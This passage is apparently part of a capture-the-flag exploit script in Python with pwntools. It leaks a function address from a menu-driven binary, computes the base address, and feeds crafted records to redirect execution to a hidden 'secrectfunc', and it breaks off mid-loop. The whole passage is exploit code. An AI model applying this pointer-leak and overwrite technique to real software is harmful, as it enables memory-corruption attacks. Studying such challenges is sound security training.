 ```python
# Step 1, Get address of printVector
#
p.sendline("1")

data = ''
data += 'A\n'  # a
data += '10\n' # b
data += '10\n' # c
data += '10\n' # d
data += '10\n' # e
data += '10\n' # f
data += '10\n' # g
data += '10\n' # h
data += '10'   # i

p.sendline("1")
p.sendline(data)

p.sendline("3")
p.sendline("1")
p.recvuntil("printFunc: ")
tmp = p.recvline()

offset_printvector = 0x10e9
offset_secrectfunc = 0x10a7
address_printvector = int(tmp, 16)
base_address = address_printvector - offset_printvector

print "base address : %x" % base_address

#
# Step 2, save and load
#

address_secrectfunc = base_address + offset_secrectfunc

data1 = ''
data1 += 'A\n'
data1 += '10\n'
data1 += '10\n'
data1 += '10\n'
data1 += str(address_secrectfunc - 10) + '\n'
data1 += '10\n'
data1 += '10\n'
data1 += '10\n'
data1 += '10'

data2 = ''
data2 += 'A\n'
data2 += '10\n'
data2 += '10\n'
data2 += '10\n'
data2 += '10\n'
data2 += '10\n'
data2 += '10\n'
data2 += '10\n'
data2 += '10'

i = 0
while i < 5:
    p.sendline("1")
    p.sendline("1") # v1
    p.sendline(data1)
```